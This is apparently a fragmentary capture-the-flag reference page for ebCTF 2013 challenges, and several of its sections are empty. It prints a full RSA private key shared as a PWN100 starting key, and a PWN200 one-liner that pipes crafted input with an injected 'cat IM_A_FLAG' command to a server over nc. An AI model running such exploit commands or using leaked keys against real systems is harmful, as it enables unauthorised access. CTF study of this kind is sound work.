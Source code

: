 ## NET300

### Reference

- <http://blog.lse.epita.fr/articles/56-ebctf-2013-network-challenges-net100-net200-net300.html>

## NET400

### Reference

## PWN100

### Reference

    <@gijs> foundation: pwn100 initial key https://p.6core.net/p/yMz8naU2ZphAAHWjGkY7ICcD

    -----BEGIN RSA PRIVATE KEY-----
    MIIEoAIBAAKCAQEA8Ew1BzA3rNBwrFYevJ6mJMVfe+ZMrbrq20Q78MIprjxMmEV8
    hUiYq4CftCeNj+XxYYuaYLwAA8GfW+wrS04AAEzHTNwc1wKbHdOzvParhiIFOjJ2
    NX/ljlQA7LCO0bToMg971gKrFGYPGMa5vKsx9hXyDCLegXHV3G/duPxaG0hkYucC
    UrilqtGMFmpFQu+vgDdudEEVg+01BtNanCxOeYuWLnd8ViZx3qrdooPNnhxh1hop
    ciYNp5ORQiYKFFCmIxAMRnXYlZt5CbPIbNrRLHKSnrDyOhSLa0e3tjnGYv+YjrHB
    OaWQoPu3dOu88ason5jhbTKzZ2gOe24vlg9hdwIBIwKCAQApMaKwxm/xvVUk25A9
    l4oyMHbEyGTqlRJReWlceQ51o+/fluIleijM8Xp2p7HeJ2s1SyHHcK+LnYkIcaEF
    mFfFiYFAYD91UOdkMuucvJJuxADlZ7x+My6qr1Cdmpwj8yB9nEEdX4sKz6rRDB/X
    M0pks04QtYU6ww64Ey1S6W6IVTh/6TNzPc2mEBtHJd7yDI08aY0fbIOf5z4WNPBE
    oEYIu6FWTMDf57XaUPclrPNnCturWcAdzw1DgYiyuDaS4YtryDfyaBA+WbepEOEb
    HFkMf6jgDfqpnGc+vL8Z3ggoftOHZPdS3NNScrR1zRZbRyLP6DNRPjmIldThIrdv
    fb+LAoGBAPzFhrlH84GwoZs+Hd/YFYgQxySGEqSspp6x14wv+7eseUN8Vp/+A11Z
    kZfRHrZU5r5eTIlo+ajXeX8Uu04U5A0X3mFXpfsGksPuEvVPPzCHwHIvfsDl2u/3
    ymStMDg2DHbAnyncLYUVVMjAVudL7MDq3fz1T44gfAcj+/jQOgwBAoGBAPNd5UeV
    MfRcJ1G5RNDm5kTkXegMNXEH1wF+HFTb3v5Ey9A6tnc+Bhpg66QgSYtwIPdll2oF
    9Jdw+8oa4tL785ZrzGSTcNQjUrBsE7H/dkPbyXH+4KXMKUEwME2cz7PrZKU4RZ9P
    b+WACdIFaH3mn3H38GPIotWqLK2LfQi7d813AoGAVqofj/tpbkswF/gKPh4zRJgJ
    w2Eq9qGYNmjcMBBzj25VdjlCRXupYdWRANn75r4F+CBUwWXR8L7n08yX/YOBY5Mn
    rFiQrdZeNIwjwdIHCVMdaPpXWBRLEHI2w26UMIePPqhxFaqTQ5JI9F8zvQQWqIsK
    SBmXnnGJnAxWY++e34sCgYB2NOu1DfOxNBMZENhINaMLhN0nkObB3zyLskhGeWxP
    ncIUrs2nochzNmPTYCO4wW8ZFBZYEYVuIO9TiWbbgbDUCHk4KltfuWKtdlK1irXJ
    MD1F/3RtyZBhfc5RlU7w/U4kXSkhflrr0HnMaQbeEO5b7XTCwIma+uKALc8EPcx5
    vQKBgBCqEbKrfUF5H1QQunHiIsRE40zJ8MaGZbdT7ZC/bXTcwFnC+m3Ql/Iko3KU
    qJ59EAryB5SmrpViNlhl3JL+Pu2m4fNhvxVfBdNSxuJMjodK6n2O4WeF0NUS0bpZ
    EZRema+mBXD/lSTh1d9FnEOwrbFFEnuTZfAnEvEFo1m/Qn43
    -----END RSA PRIVATE KEY-----


## PWN200

    $ perl -e 'print ">"x51 . "-"x47 . "\ncat IM_A_FLAG\n"' | nc 176.34.95.148 31313

## PWN300
